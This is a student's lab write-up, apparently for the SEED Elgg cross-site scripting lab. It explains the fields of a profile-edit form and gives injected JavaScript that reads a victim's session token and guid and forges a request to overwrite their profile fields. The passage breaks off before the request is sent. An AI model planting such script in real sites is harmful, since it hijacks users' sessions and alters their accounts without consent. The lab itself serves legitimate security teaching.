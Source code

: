 The form has the following fields:
 - `input` : _elgg_token, _elgg_ts, name,  location, interests, skills, contactemail, phone, mobile, website, twitter, briefdescription
 - `textarea` : description
 - `select` : accesslevel[description], accesslevel[location], accesslevel[interests], accesslevel[skills], accesslevel[contactemail], accesslevel[phone], accesslevel[mobile], accesslevel[website], accesslevel[twitter], accesslevel[briefdescription]


The select elemnets for the access levels have the following options:
 - 0 : Private
 - 1 : Logged in users
 - 2 : Public
 - 7 : Friends

We need to use 1 as our task is to set all the fields to `Logged in Users`

So now we just need to create a formData object with these fields and send a POST request to `/action/profile/edit` with the appropriate fields. 

We should use our student id in the `description` field and random strings in all other fields. However we should keep the `name` field as it is. And we need to provide the `guid`, `__elgg_ts` and `__elgg_token` values of the victim. These are most likely use for backend validation. We can get these values from the `elgg.security.token` and `elgg.session.user` objects. And as before we need to add a condition to check if the user is Samy or not.

(After some try and error I found that 'contactemail' must be in the form of an email address)

```html
<script type="text/javascript">

    function generateRandomString(length) {
        return Array.from({ length: length }, () => 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789'[Math.floor(Math.random() * 62)]).join('');
    }

	window.onload = function(){
        if(elgg.session.user.guid && elgg.session.user.guid != 59 ){
    
            let formData = new FormData();
            let ts=elgg.security.token.__elgg_ts;
            let token=elgg.security.token.__elgg_token;
            let username = elgg.session.user.name;
            let guid = elgg.session.user.guid;
            
            
            formData.append('__elgg_token', token);
            formData.append('__elgg_ts', ts);
            formData.append('name', username);
            formData.append('guid', guid);
        
            let fields = ['description', 'briefdescription', 'location', 'interests', 'skills', 'contactemail', 'phone', 'mobile', 'website', 'twitter'];
        
            for (let i = 0; i < fields.length; i++) {
                formData.append(fields[i], generateRandomString(10));
                formData.append(`accesslevel[${fields[i]}]`, 1);
            }
        
            formData.set('description', '1905066');
            formData.set('contactemail', generateRandomString(10) + '@gmail.com');
        
        
            var sendurl ="http://www.seed-server.com/action/profile/edit" 
        
        
            var Ajax=null;
```